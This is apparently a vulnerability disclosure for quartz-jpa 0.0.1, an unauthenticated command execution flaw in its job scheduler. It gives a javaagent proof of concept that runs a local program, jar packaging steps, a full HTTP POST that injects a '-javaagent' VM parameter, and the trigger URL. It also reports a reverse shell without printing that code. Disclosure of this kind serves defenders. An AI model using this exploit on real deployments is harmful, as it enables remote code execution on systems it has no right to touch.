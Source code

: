 ### quartz-jpa javaagent command execution vulnerability

### Project Introduction 

quartz-jpa is used to regularly execute the compilation of jar packages under the specified path, and can also be used for ordinary task scheduling.

### project address

###  

https://github.com/fengcharly/quartz-jpa

### Vulnerability overview

###  

There is a command execution vulnerability in quartz-jpa. It can be accessed without authentication by default. By uploading a malicious jar package and triggering the execution of malicious code, the shell can be obtained.

### Affected version

0.0.1

### Vulnerability analysis

![img](https://cdn-images-1.medium.com/max/1080/0*L8gJ9GtcTsA1ffqq)

There are parameters under the route upStatus, which accept two parameters, one is boolean type start and the other is numeric type id. The implementation method of upStatus calling the service layer is as follows.

![img](https://cdn-images-1.medium.com/max/1080/0*dro0yKeMYUVctx8f)

First, get the corresponding jobEntity from the repository by id. Set a Status parameter. is OPEN or CLOSE. Obtain the corresponding job entity through id through getJobEntityById at the jobservice level. Access jobkey and map through entities. Map is the parameter of the class. Through some conditional code, the jobService.geJobDetail method is finally called at line 163 of src/main/java/com/example/quartsdemo/service/impl/DataServiceImpl.java to obtain the entity in jobDetail and finally pass the entity to scheduler.scheduleJob().

![img](https://cdn-images-1.medium.com/max/1080/0*ouufbREJXq7tc56L)

There is a command execution using processbuilder in src/main/java/com/example/quartsdemo/job/DynamicJob.java. Through the code logic, we found that the code verified the file and found that the jar file could be executed through the java -jar command. And there is an insertable parameter.

![img](https://cdn-images-1.medium.com/max/1080/0*sNbgPq0sjB7dvL1T)

Here we find that we can use the agent mechanism that comes with Java to execute arbitrary Java code. A modification and update task list repository is also needed here. An interface is found here. There is a call in the src/main/java/com/example/quartsdemo/controller/DataCotroller.java interface upData.

![img](https://cdn-images-1.medium.com/max/1080/0*9kFmuImlpa3eVYhx)

The implementation code is given directly here. Convert the job entity and save it in the repository.

![img](https://cdn-images-1.medium.com/max/1080/0*6bG9FjB5Jn-huYKJ)

### Vulnerability recurrence

访问http://127.0.0.1:9090，

![img](https://cdn-images-1.medium.com/max/1080/0*dXQuBMIjnb1VZmeR)

First construct a jar file composed of javaagent. Here is just one case. import java.lang.Runtime; import java.io.IOException; import java.lang.instrument.Instrumentation; public class Predemo { public static void premain(String args, Instrumentation inst) throws IOException { Runtime.getRuntime().exec(“ notepad”); } } MANIFEST.MF Manifest-Version: 1.0 Premain-Class: Predemo packages the compiled program. jar -mcf MANIFEST.MF 1.jar *.class

![img](https://cdn-images-1.medium.com/max/1080/0*BhrRm0B6PnpQQTly)

It can be found that a dangerous agent is executed through the javaagent jar.

![img](https://cdn-images-1.medium.com/max/1080/0*C5jhZXAJuhi3fUjb)

Rebound shell import java.lang.Runtime; import java.io.IOException; import java.lang.instrument.Instrumentation; public class Predemo { public static void premain(String args, Instrumentation inst) throws IOException { Rebound shell code has more code here I won’t post it} } Modify the path of the corresponding javaagent to the path of the rebound shell

![img](https://cdn-images-1.medium.com/max/1080/0*AVuIE9ovzMvBJ8Pg)

Rebound shell successful.

![img](https://cdn-images-1.medium.com/max/1080/0*fJJqKm6EFs4foq7K)

POC：

```
POST /data/updData HTTP/1.1 Host: localhost:9090 Content-Length: 326 Cache-Control: max-age=0 sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "Windows" Upgrade-Insecure-Requests: 1 Origin: http://127.0.0.1:9090 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Sec-Fetch-Site: cross-site Sec-Fetch-Mode: navigate Sec-Fetch-Dest: iframe Referer: http://127.0.0.1:9090/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close id=1&name=first&group=helloworld&cron=0%2F10+*+*+*+*+%3F+&parameter=1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1&description=1&parameter=1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1%2C1&vmParam=-javaagent%3AC%3A%5Ctmp%5Cjar%5C2.jar&jarPath=C%3A%5Ctmp%5Cjar%5CCalc.jar&status=CLOSE
```

The id of jod updated here is 1, so the triggered request is

http://localhost:9090/data/updStatus?start=true&id=1

###  